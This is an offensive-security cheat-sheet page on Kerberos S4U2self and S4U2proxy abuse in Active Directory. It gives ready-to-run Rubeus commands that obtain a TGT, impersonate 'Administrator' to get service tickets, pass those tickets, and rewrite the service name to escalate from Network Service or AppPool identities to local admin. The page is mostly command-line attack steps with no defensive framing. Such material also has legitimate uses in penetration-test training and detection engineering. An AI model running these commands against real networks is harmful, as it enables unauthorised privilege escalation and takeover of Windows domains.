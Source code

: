 # Kerberos - Service for User Extension

* **Service For User To Self** which allows a service to obtain a TGS on behalf of another user
* **Service For User To Proxy** which allows a service to obtain a TGS on behalf of another user on another service

## S4U2self - Privilege Escalation

1. Get a TGT 
    * Using Unconstrained Delegation
    * Using the current machine account: `Rubeus.exe tgtdeleg /nowrap`
2. Use that TGT to make a S4U2self request in order to obtain a Service Ticket as domain admin for the machine.
    ```ps1
    Rubeus.exe s4u /self /nowrap /impersonateuser:"Administrator" /altservice:"cifs/srv001.domain.local" /ticket:"base64ticket"
    Rubeus.exe ptt /ticket:"base64ticket"

    Rubeus.exe s4u /self /nowrap /impersonateuser:"Administrator" /altservice:"cifs/srv001" /ticket:"base64ticket" /ptt
    ```

The "Network Service" account and the AppPool identities can act as the computer account in terms of Active Directory, they are only restrained locally. Therefore it is possible to invoke S4U2self if you run as one of these and request a service ticket for any user (e.g. someone with local admin rights, like DA) to yourself.

```ps1
# The Rubeus execution will fail when trying the S4UProxy step, but the ticket generated by S4USelf will be printed.
Rubeus.exe s4u /user:${computerAccount} /msdsspn:cifs/${computerDNS} /impersonateuser:${localAdmin} /ticket:${TGT} /nowrap
# The service name is not included in the TGS ciphered data and can be modified at will.
Rubeus.exe tgssub /ticket:${ticket} /altservice:cifs/${ServerDNSName} /ptt
```